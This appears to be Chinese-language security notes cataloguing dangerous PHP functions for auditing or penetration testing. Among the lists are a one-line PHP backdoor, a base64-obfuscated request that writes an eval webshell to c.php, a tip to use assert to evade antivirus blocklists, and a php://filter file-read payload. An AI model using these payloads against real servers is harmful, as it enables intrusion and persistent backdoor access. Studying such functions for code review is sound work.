 ## 常见危险函数以及特殊函数

### 代码执行

- eval
- assert
- preg_replace
    - 当使用 /e 修饰符时，将 replacement 参数作为 PHP 代码执行
    - 已启用
    - preg_replace("/test/e", "**COMMAND**", "test_substitute")
- create_function(string $args, string $code)
    - $me_func = create_function('$v', 'return system($v);');
- call_user_func(callable $callback [, mixed $parameter [, mixed $...]])
    - call('system', 'whoami')

因为大多数杀软都将 eval 列入黑名单了，所以一般用 assert 来替代 eval 进行具体操作

```php
<?php $_GET[a]($_GET[b]);?>
    
Request:
?a=assert
&b=${
fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29};
```



### 包含函数

配置文件

```
allow_url_fopen = On
allow_url_include = On
```

- include

    - 可以包含图片，压缩文件，文本文件等，只要其中含有 PHP 语法内容就会被执行
    - 写入 webshell
        - 本地包含
        - 远程包含
    - 读取本地任意文件内容
        - 封装协议
        - 过滤器（编码器）

    ```php
    include($_GET['v']);
    
    ++++++ Request: ++++++
    ?v=php://filter/convert.base64-encode/resource=index.php
    ```

- require
- include_once
- require_once

### 命令执行函数

- exec 执行外部程序
- passthru 执行外部程序并显示原始输出
- proc_open 执行命令，并且打开用来 IO 的文件指针
- shell_exec 与 `` ，通过 shell 环境执行命令，并返回完整的输出
- system 执行外部程序，显示输出
- popen 通过 popen() 的参数传递命令，并对 popen() 所打开的文件进行执行



### 文件操作函数

- copy
- file_get_contents 将整个文件读入一个字符串
- file_put_contents 将一个字符串写入文件
- file 吧整个文件读入一个数组
- fopen 打开文件或 URL
- move_uploaded_file 移动上传的文件到新位置
- readfile 输出文件
- rename 重命名一个文件或目录
- rmdir 删除目录
- unlink & delete 删除文件
    - 删除 .lock 文件并重新安装 CMS 等



### 特殊函数

- 信息泄漏
    - phpinfo
- 软连接 - 读取文件内容
    - bool symlink( string $target, string $link) - 对于已有的 target 建立一个名为 link 的符号连接
    - string readlink( string $path ) - 返回符号连接的内容
- 环境变量
    - string getenv( string $varname ) - 获取一个环境变量的值
    - bool putenv( string $setting ) - 添加 setting 到服务器环境变量，环境变量仅存活于当前请求期间。在请求结束时环境会恢复到初始状态
- 加载扩展
    - bool dl( string $library ) - 载入指定参数 library 的 PHP 扩展
- 配置相关
    - string ini_get( string $varname )
    - string ini_set( string $varname, string $newvalue)
    - string ini_alter( string $varname, string $newvalue) 设置指定配置选项的值，这个选项会在脚本运行时保持新的值，并在脚本结束时恢复
    - void ini_restore( string $varname ) 恢复配置项到它原始的值
- 数字判断
    - bool is_numeirc( mixed $var ) 若是数字或数字字符串则返回 TRUE，否则 FALSE
    - 仅用 is_numeric 而不用 intval 转换就有可能插入 16 进制的字符串到数据库，进而导致 SQL 二次注入
- 数组相关
    - bool in_array( mixed $needle, array $heystack [, bool $strict = FALSE ] ) 在 heystack 中搜索 needle，若谷设置了 strict 则使用严格比较，该函数特性是：比较之前会进行自动类型转换
- 变量覆盖相关
    - parse_str() 如果 str 是 URL 传递来的查询字符串，则将其解析为变量并设置到当前作用域
    - extract() 将变量从数组中导入到当前符号表，检查每个键名看是否可以作为一个合法的变量名，同时也检查和符号表中已有的变量名的冲突
    - mb_parse_str() 解析 GET/POST/COOKIE 数据并设置全局变量，由于 PHP 不提供原始的 POST/COOKIE 数据，，目前只能用于 GET 数据。它解析来 URL 编码过的数据，检查其编码，并转换编码为内部编码，然后设置其值为 array 的 result 或全局变量
    - import_request_variables() 将 GET/POST/Cookie 变量导入全局作用域，在禁用了 register_globals 时又想用到一些全局变量时很有用
- 列目录
    - array glob(string $pattern [, int $flag = 0 ] ) 依照 libc glob() 函数使用的规则寻找所有与 pattern 匹配的文件路径
- 无参数获取信息
    - get_defined_vars()
    - get_defined_constants()
    - get_defined_functions()
    - get_included_files()

